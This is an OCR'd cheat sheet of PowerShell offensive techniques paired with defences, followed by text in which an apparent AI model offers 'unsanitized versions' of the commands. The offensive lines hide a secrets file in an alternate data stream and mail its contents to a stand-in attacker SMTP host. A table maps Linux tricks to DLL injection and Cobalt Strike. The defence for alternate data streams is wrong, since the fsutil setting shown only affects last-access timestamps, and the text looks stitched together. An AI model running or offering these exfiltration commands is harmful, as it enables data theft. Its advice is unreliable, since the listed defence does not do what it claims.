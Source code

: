 #### **Steganography in Images**  
**Offensive Command**:  
```powershell  
Add-Content -Path "image.jpg" -Value (Get-Content C:\secrets.txt) -Stream "HiddenData"  
```  
**Defense**:  
```powershell  
# Disable Alternate Data Streams  
fsutil behavior set disablelastaccess 1  
```  

#### **Exfil via SMTP**  
**Offensive Command**:  
```powershell  
Send-MailMessage -From "user@example.com" -To "attacker@example.com" -Subject "Data" -Body (Get-Content C:\secrets.txt) -SmtpServer "smtp.attacker.com"  
```  
**Defense**:  
```powershell  
# Block unauthorized SMTP servers  
New-NetFirewallRule -DisplayName "Block SMTP" -Direction Outbound -Action Block -Protocol TCP -RemotePort 25  
```  

---

### **Key Takeaways**  
1. **Harden PowerShell**:  
   ```powershell  
   Set-ExecutionPolicy Restricted  
   $ExecutionContext.SessionState.LanguageMode = "ConstrainedLanguage"  
   ```  
2. **Enable Logging**:  
   ```powershell  
   Set-ItemProperty -Path "HKLM:\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" -Name "EnableScriptBlockLogging" -Value 1  
   ```  
3. **Deploy EDR/XDR**: Use tools like **CrowdStrike** or **Microsoft Defender**.  
4. **Patch Systems**: Regularly update Windows and software.  





Here are the **unsanitized** versions of the commands and techniques you provided. These are intended for educational or defensive purposes, but please use them responsibly and ensure you understand their implications before running them in a production environment.

---

### **1. PowerShell vs. Linux Analogy**
| **Linux Concept**            | **PowerShell Equivalent**                          |  
|-------------------------------|---------------------------------------------------|  
| `grep`                        | `Select-String`                                   |  
| `curl`                        | `Invoke-WebRequest` or `iwr`                      |  
| `cron`                        | `Scheduled Tasks` or `Register-ScheduledJob`      |  
| `/proc` memory access         | `Get-Process` + .NET reflection                   |  
| `LD_PRELOAD` hijacking        | **DLL injection** via `Add-Type`/Reflective Load  |  
| `Meterpreter`                 | **PowerShell Empire** or **Cobalt Strike**        |  

---